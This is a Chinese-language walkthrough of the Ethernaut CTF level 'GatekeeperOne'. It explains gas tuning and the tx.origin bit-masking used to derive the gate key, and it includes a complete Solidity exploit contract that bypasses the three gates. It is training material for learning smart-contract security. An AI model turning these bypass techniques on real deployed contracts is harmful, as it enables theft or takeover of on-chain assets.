 # 第十三关：GatekeeperOne
[toc]
### 本关知识点：
```
1. 类型强制转换
2. 链上gas消耗的计算方式
3. 区分msg.sender和tx.origin
```

## 1. 题目要求
` 越过守门人并且注册为一个参赛者来完成这一关.`

## 2. 代码功能解读
![[2023-05-18_164045.png]]

## 3. 漏洞分析
```
成功调用enter方法
	创建攻击合约调用绕开gateOne的检测
	控制gasleft使求余8191为0
	我们可以根据变量的强制转换方式，找到一个符合以上三个条件的8字节变量
```

我计算gas大小的方法，先执行一次失败的交易，去etherscan中找到gasleft的时候gas的消耗量，然后重新计算后输入正确的gas费用。如图所示，我输入的gas为200000，执行完gasleft()后还剩199744，消耗了256.
![[Pasted image 20230520100311.png]]
![[Pasted image 20230520095408.png]]
我发送的gas数量：819100+256  = 819356

我推到gateKey的推导思路：
  // ffffffffffffffff == ffffffff0000ffff  >> 第九到第十二个字符肯定为0
  // ffffffff0000ffff != 000000000000ffff  >> 前8字符肯定有值
  // ffffffff0000ffff == ffffffff0000ffff(tx.origin)  >>  最后四个字符的值为tx.origin的后四个字符
  由上可知：通过tx.origin和ffffffff0000ffff做与运算就能得到正确的bytes8。


## 4. 攻击方法
```
contract Exploit {

  GatekeeperOne one;

  uint64 number = 0xffffffff0000ffff;

  constructor(address addr) payable{

    one = GatekeeperOne(addr);

  }

  

  function testGas()public {

    bytes8 value;

    value = getValue();

    one.enter{gas: 200000 wei}(value);

  }

  

  function attack(uint256 gasValue_)public {

    bytes8 value;

    value = getValue();

    one.enter{gas: gasValue_}(value);

  }

  function getValue() public view returns(bytes8){

    uint64 message = uint64(uint160(tx.origin));

    bytes8 sendValue = bytes8(number & message);

    return sendValue;

  }

}
```

## 5. 攻击调用图
攻击成功，结果变成了我们自己的地址。
![[Pasted image 20230520100553.png]]
![[Pasted image 20230520100804.png]]

## 6. 知识点分析
	在编写智能合约的过程中，对合约的gas，进制转换和调用者的了解都是很重要的，可以在我们编写合约的时候达到更好的优化效果，也可以让我们更清晰的了解在阅读交易的过程中的调用情况。

如果对大家有用，请点赞；如果喜欢，请订阅加点赞，会一直更新~